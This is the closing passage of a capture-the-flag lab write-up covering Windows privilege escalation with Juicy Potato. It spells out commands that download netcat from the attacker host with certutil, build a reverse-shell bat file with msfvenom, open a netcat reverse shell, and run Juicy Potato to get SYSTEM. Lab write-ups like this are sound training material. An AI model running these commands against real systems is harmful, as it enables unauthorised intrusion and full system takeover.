 - so for us to run the exploit we also need a CLSID, we can find some at [https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_7_Enterprise](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_7_Enterprise), we can try different ones to know which succeeds
- for this exploit we need to import the netcat executable `certutil.exe -urlcache -split -f http://10.10.14.11/nc.exe nc.exe` for the x86 architechture

- For the potato exploit we also have to create a bat file that is a reverse shell using the command `msfvenom -p cmd/windows/reverse_powershell LHOST=10.10.14.11 LPORT=9003  > priv.bat`

![](assets/Devel_assets/Pasted%20image%2020230616144533.png)

- so we execute the nc first `nc.exe -e cmd.exe 10.10.14.11 9003`
- and we also set up a netcat listener on our attack machine

- we used the first CLSID which is {555F3418-D99E-4E51-800A-6E89CFD8B1D7}, then tried the second {03ca98d6-ff5d-49b8-abc6-03dd84127020} using the full path and we run
`Juicy.Potato.x86.exe -p c:\\Windows\Temp\scripts\priv.bat -l 9999 -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}`

![](assets/Devel_assets/Pasted%20image%2020230616160834.png)

-  then in our netcat listener, we get a shell as system!!

![](assets/Devel_assets/Pasted%20image%2020230616160916.png)

- we can now retrieve our flag

![](assets/Devel_assets/Pasted%20image%2020230616161328.png)

Thank you so much guys for reading my writeup, see you next time!!
